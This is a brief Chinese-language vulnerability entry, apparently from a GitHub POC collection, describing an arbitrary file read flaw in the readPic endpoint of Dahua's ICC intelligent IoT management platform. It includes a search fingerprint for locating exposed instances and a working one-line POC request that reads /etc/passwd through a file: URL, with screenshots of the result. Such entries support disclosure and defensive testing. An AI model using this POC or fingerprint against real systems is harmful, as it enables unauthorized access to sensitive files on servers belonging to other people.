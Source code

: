 # 大华 ICC智能物联综合管理平台 readPic 任意文件读取漏洞

## 漏洞描述

大化 ICC智能物联综合管理平台 readPic 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

<a-checkbox checked>大华 ICC智能物联综合管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="*客户端会小于800*"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1699017507127-ec89d0a3-0723-47b5-8479-13e5b6225041-20231108135931436.png)

验证POC

```php
/evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1699017568114-6f5e2d21-5f6b-4e68-95d3-54e5602263ae-20231108135935667.png)